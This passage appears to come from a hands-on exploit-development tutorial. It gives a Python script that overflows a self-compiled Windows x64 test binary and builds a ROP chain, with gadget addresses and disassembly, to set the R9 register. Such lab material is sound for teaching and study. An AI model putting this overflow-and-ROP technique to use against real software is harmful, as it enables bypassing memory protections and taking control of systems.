 This register was a major pain to set its value due to it's limited use in the code.  There were only so many ROP gadgets I could choose from, and I think I may have actually manually searched for this one instead of using ropper.  The additional NOPs that I added are to compensate for the `add rsp, 48` that we unfortunately have to deal with for this particular rop chain.

Ok, go ahead and plug that ROP chain into our familiar python template and you'll see R9 does in fact get set to `0x40`!

```python
import struct
import subprocess

# Offset to the return address
junk = 296  # junk  (296 bytes)

payload = b"\x41" * junk

#rop gadgets for setting the R9 register value
###################################

payload += struct.pack("<Q", 0x140001f8c)  # pop rax, ret;
payload += struct.pack("<Q", 0x140000018)  # 0x40
payload += struct.pack("<Q", 0x140007678)  # mov eax, dword ptr [rax]; ret;
payload += struct.pack("<Q", 0x140001b58)  # push rax; pop rbx; pop rsi; pop rdi; ret;
payload += b"\x90" * 16 
payload += struct.pack("<Q", 0x140007CA5)  # mov r9, rbx <see more below>

"""
0000000140007CA5 | 49:89D9                  | mov r9,rbx                           |
0000000140007CA8 | E8 D3FCFFFF              | call overflow3.140007980             |
0000000140007CAD | 48:98                    | cdqe                                 |
0000000140007CAF | 48:83C4 48               | add rsp,48                           |
0000000140007CB3 | 5B                       | pop rbx                              |
0000000140007CB4 | 5E                       | pop rsi                              |
0000000140007CB5 | 5F                       | pop rdi                              | 
0000000140007CB6 | 5D                       | pop rbp                              |
0000000140007CB7 | C3                       | ret                                  |
"""
payload += b"\x90" * 72 
payload += b"\x90" * 32 

#r9 register should now hold the value 0x40 (I hate this register)
###########################################


# Run the vulnerable program and supply the payload
process = subprocess.Popen(
    ["C:/Users/robbi/Documents/GitHub/elevationstation_local/overflow3.exe"],  # Replace with the path to your compiled binary
    stdin=subprocess.PIPE,
    stdout=subprocess.PIPE,
    stderr=subprocess.PIPE
)

#uncomment to allow debugging in x64dbg
input("attach 'overflow.exe' to x64Dbg and press enter when you're ready to continue...")

# Send the payload
stdout, stderr = process.communicate(input=payload)

# Output the program's response
print(stdout.decode())
if stderr:
    print(stderr.decode())
```